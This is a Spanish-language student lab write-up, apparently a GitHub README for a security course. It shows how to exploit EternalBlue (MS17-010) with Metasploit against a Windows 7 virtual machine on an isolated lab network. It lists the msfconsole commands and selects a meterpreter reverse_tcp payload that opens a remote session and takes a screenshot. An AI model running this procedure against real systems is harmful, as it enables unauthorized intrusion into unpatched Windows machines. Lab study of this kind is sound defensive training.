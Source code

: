 
# Video demostrativo 
[![Video demostrativo](https://img.youtube.com/vi/pzfVFRJ47_4/hqdefault.jpg)](https://youtu.be/pzfVFRJ47_4)

# SAD_2021--Vulnerabilidades---Metasploit

## Práctica del módulo de ***Seguridad y Alta Disponibilidad***

- Alumno: Fernando Páez Martín
- Curso: 2ºB - A.S.I.R.
- IES Punta del Verde

![alt Metalogo](Metasploit.png)

Haremos una busqueda de información sobre esta herramienta que permite ejecutar y desarrollar exploits contra sistemas objetivos. La primera opción antes de usar la propia herramienta va a consistir en recopilar información sobre el sistema objetivo. A partir de los datos obtenidos, se tomarán las decisiones acordes y los pasos a seguir en etapas posteriores.

- Descarga de las herramientas de Metasploitable y Máquina Virtual de Kali linux.
- Descarga de imagen iso de windows 7 para realizar el estudio de la vulnerabilidad y creacion de la máquina virtual.

## Recopilación de información

La tarea a desarrollar irá enfocada a la vulnerabilidad catalogada en la base de datos de vulnerabilidades CVE como:

[MS17-0144 - Eternalblue](https://www.cvedetails.com/cve/CVE-2017-0144/)

EternalBlue explota una vulnerabilidad en protocolo Server Message Block (SMB). Esta vulnerabilidad se dio porque el servidor SMB v1 (SMBv1) de Microsoft Windows manejaba mal paquetes especialmente diseñados por atacantes remotos, permitiendo ejecutar código sobre el equipo a que ataca.

## Configuración de las máquinas virtuales

Se configuran en un entorno llamado "Red Interna" y dentro del mismo rangode red:

- Kali con 10.0.2.10/8

 	![Ip Kali](https://github.com/fernandopaezmartin/SAD_2021--Vulnerabilidades---Metasploit/blob/main/imagenes/1.png)

- Windows con 10.0.2.11/8
  
  ![Ip Windows](https://github.com/fernandopaezmartin/SAD_2021--Vulnerabilidades---Metasploit/blob/main/imagenes/2.png)
  
- Comprobamos que las dos máquinas tienen conectividad entre si haciendo ping entre ellas:

  ![Ping Windows](https://github.com/fernandopaezmartin/SAD_2021--Vulnerabilidades---Metasploit/blob/main/imagenes/3.png)
  
  ![Ping Kali](https://github.com/fernandopaezmartin/SAD_2021--Vulnerabilidades---Metasploit/blob/main/imagenes/4.png)


## Ejecución de escaner de red Nmap

Con esta herramienta descubriremos puertos y servicios abiertos en la máquina objetivo.

  ![msfconsole](https://github.com/fernandopaezmartin/SAD_2021--Vulnerabilidades---Metasploit/blob/main/imagenes/7.png)
  


## Metasploit Framework (MSF) 

En la primera fase ejecutaremos este framework para buscar exploits usar, descargar payloads y ejecutarlos.

**msfconsole**
 	
  ![msfconsole](https://github.com/fernandopaezmartin/SAD_2021--Vulnerabilidades---Metasploit/blob/main/imagenes/5.png)


Usaremos su buscador para encontrar el exploit:

**search eternalblue**

  ![search msf](https://github.com/fernandopaezmartin/SAD_2021--Vulnerabilidades---Metasploit/blob/main/imagenes/6.png)


De los resultados elegiremos la primera opción:

***0  exploit/windows/smb/ms17_010_eternalblue  MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption***

**use 0**

  ![search msf](https://github.com/fernandopaezmartin/SAD_2021--Vulnerabilidades---Metasploit/blob/main/imagenes/8.png)

Nos devuelve:

**No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp**


Vemos que parámetros son requeridos con el comando:
**options**

![options](https://github.com/fernandopaezmartin/SAD_2021--Vulnerabilidades---Metasploit/blob/main/imagenes/9.png)


nos pide datos del equipo remoto o **RHOST**. Le indicamos la ip del equipo remoto 10.0.2.11

![set rhost](https://github.com/fernandopaezmartin/SAD_2021--Vulnerabilidades---Metasploit/blob/main/imagenes/10.png)


Podemos ver una serie de payloads a ejecutar:

![varios payloads](https://github.com/fernandopaezmartin/SAD_2021--Vulnerabilidades---Metasploit/blob/main/imagenes/11.png)


Vamos a realizar la prueba con el siguiente **windows/x64/meterpreter/reverse_tcp**:

![reverse_tcp](https://github.com/fernandopaezmartin/SAD_2021--Vulnerabilidades---Metasploit/blob/main/imagenes/12.png)


Le indicamos que se ejecute con **run**

![run](https://github.com/fernandopaezmartin/SAD_2021--Vulnerabilidades---Metasploit/blob/main/imagenes/13.png)


Podemos ver las distintas opciones que nos ofrece este exploit con **options**

![options](https://github.com/fernandopaezmartin/SAD_2021--Vulnerabilidades---Metasploit/blob/main/imagenes/14.png)


Como ejemplo ejecutaremos el comando **screenshot** y nos hará una captura de pantalla de la máquina remota.


![screenshot](https://github.com/fernandopaezmartin/SAD_2021--Vulnerabilidades---Metasploit/blob/main/imagenes/15.png)

Mostramos la captura realizada:

![screenshot2](https://github.com/fernandopaezmartin/SAD_2021--Vulnerabilidades---Metasploit/blob/main/imagenes/16.png)

